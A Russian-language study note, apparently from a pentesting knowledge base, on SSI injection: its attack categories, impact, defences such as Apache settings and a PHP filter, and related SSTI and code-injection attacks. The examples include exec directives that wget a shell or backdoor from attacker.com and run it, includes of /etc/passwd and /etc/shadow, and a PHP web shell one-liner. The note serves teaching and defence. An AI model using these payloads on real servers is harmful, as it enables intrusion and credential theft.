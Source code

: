 ## **Что такое Server-Side Includes (SSI)?**

SSI — это простой scripting язык, который выполняется на сервере до отправки страницы клиенту. Обычно используется для включения общего контента (хедеры, футеры) или выполнения простых операций.

**Условие для атаки:** Веб-сервер должен быть сконфигурирован для обработки SSI (обычно файлы с расширениями `.shtml`, `.shtm`).

---

## **Категории SSI атак**

---

### **1. Remote Code Execution (RCE)**

Наиболее опасная категория — выполнение произвольных команд на сервере.

**Директивы:**
- `<!--#exec cmd="команда" -->` — выполнение системных команд
- `<!--#exec cgi="скрипт" -->` — выполнение CGI-скриптов

**Пример:**
``` html
<!-- Злоумышленник внедряет в поле комментария или формы -->
<!--#exec cmd="ls -la /etc/" -->
<!--#exec cmd="wget http://attacker.com/shell.txt -O /var/www/shell.php" -->
```

### **2. File Disclosure / Чтение файлов**

Получение содержимого файлов на сервере.

**Директивы:**

- `<!--#include file="путь" -->` — включение локальных файлов
- `<!--#include virtual="путь" -->` — включение через виртуальный путь

**Пример:**
```html
<!-- Чтение системных файлов -->
<!--#include file="/etc/passwd" -->
<!--#include virtual="/etc/shadow" -->
<!--#include file="/var/www/config/database.php" -->
```

### **3. Information Disclosure / Раскрытие информации**

Получение информации о системе и сервере.

**Директивы:**

- `<!--#echo var="DOCUMENT_NAME" -->` — имя документа
- `<!--#echo var="DATE_LOCAL" -->` — локальная дата
- `<!--#echo var="REMOTE_ADDR" -->` — IP клиента
- `<!--#echo var="DOCUMENT_URI" -->` — URI документа

**Пример:**
```html
<!-- Сбор информации о сервере -->
Server: <!--#echo var="SERVER_SOFTWARE" -->
Path: <!--#echo var="DOCUMENT_ROOT" -->
User: <!--#echo var="REMOTE_USER" -->
```

### **4. File Manipulation / Манипуляции с файлами**

Изменение атрибутов файлов (если разрешено).

**Директива:**

- `<!--#fsize file="путь" -->` — получение размера файла
- `<!--#flastmod file="путь" -->` — дата модификации

## **Импакт (Последствия)**

- **🟥 Полный компромисс сервера** через RCE
- **🟥 Утечка конфиденциальных данных** (конфиги, пароли, ключи)
- **🟧 Раскрытие структуры приложения** и системной информации
- **🟨 Denial of Service** через выполнение ресурсоемких команд
- **🟨 Дефейс сайта** через модификацию контента

---

## **Защита**

### **1. Конфигурация веб-сервера**

```apache
# Apache - отключение SSI
Options -Includes
# или более детально
Options -IncludesNOEXEC  # запрет exec
Options -IncludesNoExec  # в некоторых версиях

# Nginx - обычно не поддерживает SSI по умолчанию
```

### **2. Валидация и фильтрация входных данных**

```php
// Фильтрация SSI-директив
function sanitizeSSI($input) {
    $patterns = [
        '/<!--#\s*include\s+.*-->/i',
        '/<!--#\s*exec\s+.*-->/i',
        '/<!--#\s*echo\s+.*-->/i',
        '/<!--#\s*fsize\s+.*-->/i',
        '/<!--#\s*flastmod\s+.*-->/i'
    ];
    return preg_replace($patterns, '[SSI BLOCKED]', $input);
}
```

### **3. Content Security Policy**

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'">
```

### **4. Принцип минимальных привилегий**

- Запуск веб-сервера под пользователем с ограниченными правами
- Запрет на выполнение системных команд из веб-контекста

### **5. Регулярный аудит**

- Сканирование на уязвимости SSI injection
- Мониторинг логов на подозрительные паттерны

---

## **Похожие атаки**

---

### **1. Server-Side Template Injection (SSTI)**

[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)

Более современный аналог, затрагивающий шаблонизаторы:

- **Jinja2** (Python): `{{ 7*7 }}` → `49`
- **Twig** (PHP): `{{ _self.env.registerUndefinedFilterCallback("exec") }}`
- **Freemarker** (Java): `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }`

![[SSTI.png]]

### **2. Code Injection**

Прямое выполнение кода:

- **PHP**: `<?php system($_GET['cmd']); ?>`
- **ASP**: `<% Response.Write(CreateObject("WScript.Shell").Exec("cmd.exe").StdOut.ReadAll()) %>`
    

### **3. Expression Language Injection (EL Injection)**

В Java-приложениях:
- `${pageContext.request.getParameter("param")}`
- `${''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null).exec('calc')}`

## **Ключевые различия**

|Атака|Контекст|Условия|Гибкость|
|---|---|---|---|
|**SSI Injection**|Веб-сервер (Apache)|Включена обработка SSI|Ограничена директивми SSI|
|**SSTI**|Шаблонизаторы приложения|Контроль над данными в шаблоне|Очень высокая (полный язык)|
|**Code Injection**|Интерпретаторы языка|Невалидируемый пользовательский ввод|Максимальная (прямое выполнение)|

## **Практический пример эксплуатации**

**Уязвимая форма:**
```html
<!-- page.shtml -->
<html>
<body>
<h1>Welcome <!--#echo var="REMOTE_USER" --></h1>
<!-- Пользовательский контент из БД -->
<div class="content">
    ${user_content}  <!-- уязвимое место! -->
</div>
</body>
</html>
```

**Атака:**
```html
Здравствуйте! Отличный сайт.
<!--#exec cmd="wget http://attacker.com/backdoor.sh -O /tmp/bd.sh" -->
<!--#exec cmd="chmod +x /tmp/bd.sh && /tmp/bd.sh" -->
<!--#include file="/etc/passwd" -->
```

**Защищенная версия:**
```html
<div class="content">
    ${escapeHtml(user_content)}  <!-- экранирование HTML-сущностей -->
</div>
```

SSI-атаки особенно опасны в системах, где пользовательский контент отображается без должной санитизации, а сервер настроен на обработку SSI-директив.
